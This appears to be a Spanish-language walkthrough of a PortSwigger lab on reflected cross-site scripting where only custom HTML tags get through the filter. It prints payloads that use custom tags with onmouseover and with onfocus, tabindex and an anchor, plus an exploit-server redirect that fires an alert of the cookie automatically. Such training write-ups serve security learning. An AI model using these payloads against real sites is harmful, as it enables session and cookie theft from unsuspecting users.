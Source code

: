 Lab: This lab blocks all HTML tags except custom ones.

To solve the lab, perform a cross-site scripting attack that injects a custom tag and automatically alerts `document.cookie`.   

---

## 🎯 Objetivo del Lab

El objetivo es ejecutar `alert('XSS')` utilizando un vector de XSS reflejado, a pesar de que todas las etiquetas HTML estándar están bloqueadas. Solo se permiten etiquetas personalizadas.

---

## 🧠 Análisis del Escenario

### 🔒 Restricciones del WAF
- Bloquea etiquetas HTML estándar como `<script>`, `<img>`, `<iframe>`, etc.
- Permite etiquetas personalizadas como `<custom-tag>`.

### 🤔 ¿Qué son las etiquetas personalizadas?
- Son etiquetas no reconocidas por el estándar HTML.
- Los navegadores modernos **ignoran su funcionalidad**, pero **procesan sus atributos** como `onmouseover`, `onclick`, etc.

---

## 🚀 Procedimiento Paso a Paso

### 1. Identificar el punto vulnerable
- El parámetro `search` es vulnerable a XSS reflejado.
- El contenido del parámetro se inserta directamente en el HTML sin ser escapado adecuadamente.
![image](https://github.com/user-attachments/assets/50837f57-5fe2-4730-bc2e-6e265821aa74)



### 2. Crear un payload con etiqueta personalizada
Usamos un evento que no requiere interacción peligrosa. Por ejemplo, `onmouseover`:

```html
<custom-tag onmouseover="alert('XSS')">Pasa el cursor aqui</custom-tag>
```

Esto genera una alerta al pasar el cursor sobre el texto:
![image](https://github.com/user-attachments/assets/5d875582-ef36-45b3-9304-3d9350f337d7)


### 3. Codificar el payload para la URL

Codificamos el HTML para pasarlo por el parámetro `search`:

```
%3Ccustom-tag%20onmouseover%3D%22alert('XSS')%22%3EPasa%20el%20cursor%20aqu%C3%AD%3C%2Fcustom-tag%3E
```

### 4. Armar la URL final

Ejemplo de URL (reemplazar el dominio con el del lab):

```
https://<LAB-ID>.web-security-academy.net/?search=%3Ccustom-tag%20onmouseover%3D%22alert('XSS')%22%3EPasa%20el%20cursor%20aqu%C3%AD%3C%2Fcustom-tag%3E
```

---

## ✅ Conclusión

Aunque el WAF bloquea etiquetas conocidas, es posible ejecutar XSS explotando el hecho de que los navegadores aún procesan atributos en etiquetas desconocidas. Esto permite ejecutar JavaScript de forma efectiva.

---

- Podemos aprovechar **eventos como `onfocus`** que se disparan cuando un elemento recibe el foco.

---

## 🚀 Exploit server

Si bien en este caso podría enviarse el link malicioso directamente sin la necesidad de un sever intermedio, aquí simulamos el uso de una web controlada por el atacante que redirige a la aplicación web vulnerable.

### 1. Construir el Payload
Utilizamos una etiqueta personalizada `<xss>` con los siguientes atributos:
- `id="x"` → Para poder referenciarla con un ancla.
- `onfocus="alert(document.cookie)"` → El código JavaScript a ejecutar.
- `tabindex="1"` → Permite que el elemento sea enfocado automáticamente.

```html
<xss id="x" onfocus="alert(document.cookie)" tabindex="1"></xss>
```
Enviamos este payload y luego agregamos el `#x` al final:
![image](https://github.com/user-attachments/assets/41549c6d-8045-40c4-a03c-0c1ad29f5126)

En este paso del laboratorio, usamos el **Exploit Server** para automatizar la ejecución del XSS sin requerir interacción del usuario.

## 💥 Código insertado en el Exploit Server

```html
<script>
location = 'https://0aae00bf040fe50b80e3302c004b0012.web-security-academy.net/?search=%3Cxss+id%3D%22x%22+onfocus%3D%22alert(document.cookie)%22+tabindex%3D%221%22%3E%3C%2Fxss%3E#x'
</script>
```
![image](https://github.com/user-attachments/assets/075c3474-8621-4d53-98aa-bb98bccd2461)

## 🧠 Conclusión

- `<script>...</script>`: Este bloque se ejecuta automáticamente al cargar la página del exploit server.

- `location = 'URL'`: Redirige al navegador de la víctima automáticamente a la URL vulnerable con el payload.

### Contenido de la URL codificada:

Inyecta una etiqueta personalizada `<xss>` con:

- `id="x"` → identificador para el hash.
- `onfocus="alert(document.cookie)"` → ejecuta la alerta al enfocar el elemento.
- `tabindex="1"` → permite que el elemento sea enfocable automáticamente.
- El `#x` al final de la URL hace que el navegador enfoque el elemento con ID `x`.



Enviamos el exploit a la víctima y resolvemos el lab:
![image](https://github.com/user-attachments/assets/2ca03a06-71d7-4fea-b7ad-e145da0b2c2d)




